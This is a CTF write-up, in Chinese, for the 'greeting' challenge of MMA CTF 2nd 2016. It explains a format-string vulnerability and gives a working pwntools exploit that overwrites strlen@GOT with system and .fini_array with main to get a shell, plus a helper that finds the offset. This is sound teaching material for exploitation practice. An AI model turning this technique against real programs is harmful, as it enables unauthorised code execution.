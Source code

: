 # MMA CTF 2nd 2016 - Notes

## greeting

用 ida 可以看到裡面漏洞在 printf(&v5)

然後裡用有一個函數 nao() ，裡面有 system 

而 getline(buf, size) 裡面最後是 return strlen(buf)

所以可以改 strlen@got -> system@plt ，這樣buf 放 "sh" 就可以 get shell

然後改 .fini.array -> main 這樣可以執行第二次 Main

用 pwntools 的 fmtstr_payload 解

```python
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'

r = process('/tmp/pp/a')

r.recvrepeat(0.3)

# fmtstr_payload(7, {printf_got: system_add})  
system_plt = 0x8048490
strlen_got = 0x8049a54
main = 0x080485ed
fini_array = 0x8049934 # readelf -S 


offset =12
writes = {fini_array:main,strlen_got:system_plt}
padding = 'aa'
payload1 = padding + fmtstr_payload(offset = offset,writes = writes,numbwritten = 20,write_size='int')
r.sendline(payload1)
r.recvrepeat(0.2)
r.sendline('sh')
print "payload: ",payload1
r.interactive()
``` 

其他補充 - 找 offset 可以利用 pwntools

```
from pwn import *

def exec_fmt(payload):
    p = process('./a')
    p.recvrepeat(0.1)
    p.sendline(payload)
    return p.recv()
autofmt = FmtStr(exec_fmt)
print autofmt.offset
```

